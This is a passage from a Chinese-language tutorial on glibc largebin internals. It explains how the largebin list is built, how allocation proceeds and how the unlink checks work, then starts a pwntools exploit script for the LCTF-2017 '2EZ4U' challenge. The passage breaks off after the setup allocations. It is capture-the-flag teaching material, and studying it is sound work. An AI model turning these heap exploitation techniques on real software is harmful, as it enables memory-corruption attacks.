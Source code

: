 ```c
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;              
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;              
              }                                      
          }                                      
      }                                          
}
```

再看看largebin的unlink检查，从代码中可以看到，就是多了`fd_nextsize`和`bk_nextsize`俩个位置的检查，原理和`fd`和`bk`的检查一致。但是需要注意的是对于存在多个满足空间的堆块来说，申请出来的是堆头的下一个结点，它的`fd_nextsize`和`bk_nextsize`为空。也就是说即使它是largebin chunk，但是它的`fd_nextsize`也为空，即不满足条件`__builtin_expect (P->fd_nextsize != NULL, 0)`，对于此类chunk的unlink，只会像smallbin的unlink一样检查`fd`与`bk`，而不会对`fd_nextsize`与`bk_nextsize`进行检查与操作。

至此largebin链表的形成以及申请largebin都已经阐述清楚。再小结下，对于largebin的链表的插入，双链表是从大到小的chunk排序，相同大小的chunk会有一个堆头，只有堆头的`fd_nextsize`与`bk_nextsize`会被赋值，其余堆块的该字段为0。插入的遍历是通过`fd_nextsize`从大到小进行的，如果该插入的chunk存在对应堆头，则插入到该堆头的下一个结点，否则的话该chunk会成为堆头插入到链表中。

对于largebin的申请，通过判断双链表的第一个结点（最大结点）的大小来判断是否存在满足的堆块，如果有则从小到大通过`bk_nextsize`反向遍历双链表，找到最小的满足申请需求的堆块，如果该堆头下一个结点的大小也满足则将该结点作为目标分配给用户，以此减少链表的`fd_nextsize`与`bk_nextsize`操作，提高效率。对于双链表的unlink，需要注意的就是`fd_nextsize`与`bk_nextsize`检查，特别需要注意的是当结点是堆头的下一个结点时，它的`fd_nextsize`与`bk_nextsize`为0，此时unlink操作与smallbin的unlink操作一致，没有`fd_nextsize`与`bk_nextsize`的检查与操作。







#### LCTF-2017 2EZ4U

exp

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import*

#context.log_level='debug'

def Add(l,d):
    p.sendlineafter('choice: ','1')
    p.sendlineafter('):','0')
    p.sendlineafter('):','0')
    p.sendlineafter('):','0')
    p.sendlineafter('):',str(l))
    p.sendlineafter('apple:',d)
def Edit(idx,d):
    p.sendlineafter('choice: ','3')
    p.sendlineafter('):',str(idx))
    p.sendlineafter('):','0')
    p.sendlineafter('):','0')
    p.sendlineafter('):','0')
    p.sendlineafter('apple:',d)
def Show(idx):
    p.sendlineafter('choice: ','4')
    p.sendlineafter('):',str(idx))
def Del(idx):
    p.sendlineafter('choice: ','2')
    p.sendlineafter('):',str(idx))

p=process('./2ez4u')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)

Add(0x60,'0'*0x60)#0
Add(0x60,'1'*0x60)#1
Add(0x60,'2'*0x60)#2
Add(0x60,'3'*0x60)#3
Add(0x60,'4'*0x60)#4
```